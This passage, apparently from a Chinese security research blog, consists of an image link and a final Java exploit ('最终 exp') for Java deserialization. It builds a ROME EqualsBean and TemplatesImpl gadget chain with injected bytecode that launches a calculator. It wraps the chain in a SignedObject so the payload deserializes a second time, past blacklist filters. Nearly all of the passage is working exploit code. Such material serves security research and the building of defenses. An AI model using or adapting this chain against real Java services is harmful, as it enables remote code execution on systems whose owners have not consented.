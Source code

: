 [![image-20220810100110091.png](https://storage.tttang.com/media/attachment/2022/08/10/9d704669-9d02-454f-8877-46654ad4579c.png)](https://storage.tttang.com/media/attachment/2022/08/10/9d704669-9d02-454f-8877-46654ad4579c.png)

最终 exp

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import javax.xml.transform.Templates;
import java.security.*;
import java.util.HashMap;
import java.util.Hashtable;
import static util.Tool.*;

public class R_SignedObject {
    public static void main(String[] args) throws Exception{
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{
                payload("mate-calc").toBytecode()});
        setFieldValue(obj, "_name", "Poria");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Hashtable table1 = getPayload(Templates.class, obj);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(table1, kp.getPrivate(), Signature.getInstance("DSA"));

        Hashtable table2 = getPayload(SignedObject.class, signedObject);

        run(table2, "debug", "object");
    }
    public static Hashtable getPayload (Class clazz, Object payloadObj) throws Exception{
        EqualsBean bean = new EqualsBean(String.class, "r");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", bean);
        map1.put("zZ", payloadObj);
        map2.put("zZ", bean);
        map2.put("yy", payloadObj);
        Hashtable table = new Hashtable();
        table.put(map1, "1");
        table.put(map2, "2");
        setFieldValue(bean, "_beanClass", clazz);
        setFieldValue(bean, "_obj", payloadObj);
        return table;
    }
}
```

